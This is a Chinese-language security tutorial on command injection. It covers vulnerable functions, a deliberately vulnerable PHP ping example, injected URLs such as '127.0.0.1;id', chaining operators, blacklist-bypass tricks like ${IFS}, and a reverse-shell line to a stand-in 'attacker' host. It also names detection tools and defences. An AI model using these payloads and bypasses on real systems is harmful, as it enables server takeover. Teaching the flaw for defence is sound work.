 # 命令注入

命令注入（Command Injection）是 Web 安全中一种非常危险的漏洞，攻击者通过构造恶意输入，使服务器执行任意系统命令，可能导致**服务器被完全控制**。

---

## 1. 命令注入

**命令注入（Command Injection）**是指程序在调用系统命令（如 `exec()`、`system()`、`popen()` 等）时，未对用户输入进行**过滤或校验**，攻击者将恶意命令插入进去，被服务器执行。

---

## 2. 常见受害函数

| 语言 | 常用函数 |
|------|----------|
| PHP | `exec()`、`system()`、`passthru()`、`shell_exec()`、`popen()` |
| Python | `os.system()`、`os.popen()`、`subprocess.call()` |
| Java | `Runtime.getRuntime().exec()` |
| Node.js | `child_process.exec()`、`spawn()` |
| C | `system()`、`popen()` |

---

## 3. 典型例子（PHP）

### 漏洞代码：
```php
<?php
$ip = $_GET['ip'];
system("ping -c 1 $ip");
?>
```

### 正常访问：
```
http://example.com/ping.php?ip=127.0.0.1
```

### 恶意访问：
```
http://example.com/ping.php?ip=127.0.0.1;id
```

### 后果：
服务端执行了：
```bash
ping -c 1 127.0.0.1;id
```
等价于执行了 `ping` 和 `id` 两个命令。

---

## 4. 命令拼接符

攻击者常用的操作符：


| 符号 | 功能 |
|------|------|
| `;` | 顺序执行多个命令 |
| `&&` | 当前命令成功才执行下一个 |
| `\|\|` | 当前命令失败才执行下一个 |
| `\|` | 管道符，把前一个命令的输出作为后一个命令的输入 |
| `` `cmd` `` | 执行命令，返回结果（如 `echo `id``） |
| `$(cmd)` | 执行命令，返回结果（如 `echo $(id)`） |

---

## 5. 命令注入与参数污染

### 示例：
```bash
ping -c 1 127.0.0.1 && whoami
```

如果命令拼接没有加引号或者没处理空格，就可能注入。

---

## 6. 黑名单绕过技巧

即使开发者试图过滤某些关键字，攻击者依然有方法绕过：

| 过滤策略 | 绕过方法                            |
|----------|---------------------------------|
| 过滤 `;` | 使用 `\|`、`&&`、换行符                |
| 过滤 `rm` | 编码绕过，如 `%72%6d`、`${IFS}rm`      |
| 过滤命令 | 使用符号替代、构造变量、子命令 `$(...)`        |
| 空格过滤 | 使用 `${IFS}`（内部字段分隔符） 或 `<>`、制表符 |

---

## 7. 危害

- 任意命令执行（如 `id`, `uname -a`, `cat /etc/passwd`）
- 文件读取 / 删除
- 远程反弹 Shell（如 `bash -i >& /dev/tcp/attacker/4444 0>&1`）
- 横向移动、提权

---

## 8. 检测方法

### 8.1 手工检测
尝试输入：
```
127.0.0.1;id
127.0.0.1&&whoami
127.0.0.1|uname -a
```

看响应是否出现命令执行结果。

### 8.2 工具检测

| 工具 | 功能 |
|------|------|
| Burp Suite + Intruder | 模拟注入点 |
| **Commix** | 自动化命令注入检测与利用（推荐） |
| OWASP ZAP | 被动扫描 |
| curl/wget | 结合手工探测 payload 响应变化 |

---

## 9. 防御措施

| 等级 | 方法 |
|----|------|
| 首选 | **避免使用系统命令执行函数**，用语言内建库替代 |
| 强校验 | 对用户输入做严格白名单校验，只允许合法字符（如 IP 地址） |
| 参数分离 | 使用参数数组代替拼接字符串，如 `subprocess.run(["ping", "-c", "1", ip])` |
| 最小权限 | 限制 Web 服务用户权限，禁止访问敏感系统命令 |
| WAF拦截 | 防御部分已知注入 payload |

---

